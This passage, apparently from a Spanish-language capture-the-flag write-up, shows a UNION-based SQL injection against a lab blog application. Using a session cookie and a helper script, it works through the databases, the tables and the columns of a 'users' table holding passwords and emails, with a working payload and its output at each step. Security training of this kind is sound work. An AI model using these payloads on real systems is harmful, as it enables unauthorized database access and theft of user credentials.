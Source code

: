 ```python
        output = str(data).replace(')]', '').replace('[(', '')
        
        print(output)

if __name__ == "__main__":
    makeInjection()

```
El modo de uso es muy sencillo simplemente le tenemos que pasar nuestra cookie de autenticacion, que la podemos ver en la web.

![](/assets/img/literal/co.png)

lo ejecutamos y como argumento le pasamos la cookie, voy a utilizar rlwrap para poder tener historico y moverme mas comodo.
```bash
❯ rlwrap python3 sqlBlog.py 'c46861gtraqgl8v86plu9pqmmv'
' union select 1,2,3,database(),5-- -
'1', '2', '3', 'blog', '5'
```
Nos muestra lo mismo que veiamos en la web, ahora veamos cuales son los nombres de todas las bases de datos que existen en este servidor.
```bash
> ' union select 1,2,3,schema_name,5 from information_schema.schemata-- -
'1', '2', '3', 'mysql', '5'), ('1', '2', '3', 'information_schema', '5'), ('1', '2', '3', 'performance_schema', '5'), ('1', '2', '3', 'blog', '5'
```
Si queremos ver todos los nombres juntos y no de se esa forma podemos jugar con <span style="color:blue;">group_concat()</span>, para que toda la informacion nos la reporte en un unico campo.
```bash
> ' union select 1,2,3,group_concat(schema_name),5 from information_schema.schemata-- -
'1', '2', '3', 'mysql,information_schema,performance_schema,blog', '5'
```
Hay vemos la informacion mejor representada, teniendo estos ahora veamos cuales son las tablas existentes en la base de datos blog.
```bash
> ' union select 1,2,3,group_concat(table_name),5 from information_schema.tables where table_schema='blog'-- -
'1', '2', '3', 'projects,users', '5'
```
Vemos una tabla llamada users veamos cuales son sus columnas.
```bash
> ' union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema='blog' and table_name='users'-- -
'1', '2', '3', 'userid,username,userpassword,useremail,usercreatedate', '5'
```
Vemos columnas interesantes veamos el contenido de la columna <span style="color:red;">useremail</span>.
```bash
> ' union select 1,2,3,group_concat(useremail),5 from users-- -
```